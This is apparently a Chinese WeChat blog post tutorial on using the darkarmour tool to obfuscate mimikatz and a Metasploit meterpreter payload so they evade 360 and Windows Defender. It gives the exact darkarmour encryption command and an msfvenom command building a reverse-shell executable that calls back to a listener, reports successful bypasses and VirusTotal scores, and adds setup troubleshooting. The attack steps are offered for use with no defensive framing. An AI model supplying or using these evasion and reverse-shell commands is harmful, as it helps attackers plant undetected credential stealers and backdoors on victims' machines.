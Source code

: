 #  我的免杀之路：利用darkarmour实现mimikatz和MSF的免杀

Snaker  [ Snaker独行者 ](javascript:void\(0\);)

**Snaker独行者** ![]()

微信号 gh_e5407d383892

功能介绍 记录本人网络安全知识/经验/笔记，致敬未来的我。

____

__

收录于话题 #免杀对抗 5个内容

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194459.png)

  

  

  

**0x1  mimikatz免杀**

 **  
**

  * 

    
    
    python3 darkarmour.py -f /root/mimikatz.exe -e xor -j -k sanker -l 20 -u -o /root/bypass_mimikatz.exe

  

k参数：用于加密的密钥key，如果不设置则默认随机生成  
j参数：使用基于jmp的PE加载器  
l参数：加密级别  
u参数：用upx打包可执行文件

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194504.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194505.png)

  

这里加密字节的过程比较久，尝试运行bypass_mimikatz.exe

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194507.png)

  

运行成功，看看免杀效果如何  

  

Bypass 360 success!

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194508.png)

  

Bypass Windows Defender success!

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194509.png)

  

V站评分10/66

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194511.png)

  

  

  

  

 **0x2  MSF免杀**

 **  
**

先生成可执行文件

  * 

    
    
     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.160.128 LPORT=4488 -f exe -o msf.exe

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194512.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194513.png)

  

此次的加密等级设置为10，看运行如何

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194514.png)

  

上线成功，看看免杀效果如何

  

Bypass 360 success!

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194516.png)

  

Bypass Windows Defender success!

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194517.png)

  

V站评分22/66（分数不太可观，可能和我设置的加密等级有关）

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194518.png)

  

  

* * *

  

吐槽一下，加密后的mimikatz.exe居然10.6MB，我真服了。源文件才1.29MB，我猜测这应该是我设置的加密等级太高，图中可以看到我加密等级为500，项目给出的示例也仅仅是5而已。同时，我猜测加密等级会影响免杀效果，由于加密花费时间较长，我这里就没有一一进行测试，师傅们可以自行尝试。

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194519.png)

  

  

  

* * *

  

  

 **记录一些使用过程中遇到的问题：**  

  

 **排坑1：报错“sh: 1: x86_64-w64-mingw32-gcc: not foundded.exe...”**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194520.png)

 **解决方法：**  

  * 

    
    
     apt-get install mingw-w64

 **项目所需要的依赖环境：**  

  * 

    
    
     apt install mingw-w64-tools mingw-w64-common g++-mingw-w64 gcc-mingw-w64 upx-ucl osslsigncode

注意：本人试过用Windows
10和Ubuntu系统去使用darkarmour工具，都混淆shellcode失败，原因未知。如果同样有小伙伴在使用这款工具时遇到这样的问题，不妨换成Kali系统。

  

  

 **排坑2：使用msfvenom生成MSF马时，必须用以下命令**

  * 

    
    
     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.160.128 LPORT=4488 -f exe -o msf.exe

注意：payload一定得是windows/x64/meterpreter/reverse_tcp  
（别问为什么，我也不清楚，我一开始上线不成功，最后排查到居然是payload的问题，想不明白为什么，这里浪费好些时间![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194521.png)）

  

  

 **源项目地址：**

  * 

    
    
     https://github.com/bats3c/darkarmour

感谢所有前辈的开源精神以及知识分享![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194522.png)

  

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

我的免杀之路：利用darkarmour实现mimikatz和MSF的免杀

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

